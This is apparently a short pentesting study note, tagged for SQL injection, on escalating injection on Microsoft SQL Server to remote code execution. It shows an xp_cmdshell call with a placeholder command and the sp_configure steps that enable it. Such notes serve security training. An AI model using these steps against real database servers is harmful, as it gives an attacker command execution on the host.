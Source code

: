 ```yaml
---
tags:
- sqlInjection
---
```


# SQL Injection. Remote Code Execution

## Run shell command in sql
### MS sql
```sql
EXECUTE xp_cmdshell 'command to run here';
```
Enable possibility to use xp_cmdshell
```sql

-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;  
GO  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
GO  
-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;  
GO  
-- To update the currently configured value for this feature.  
RECONFIGURE;  
GO
```

## Notes
the Linux version of SQL Server does not support  _xp_cmdshell_.

## References

1. web200.SQL Injection.Exploiting SQL Injection. Remote Code Execution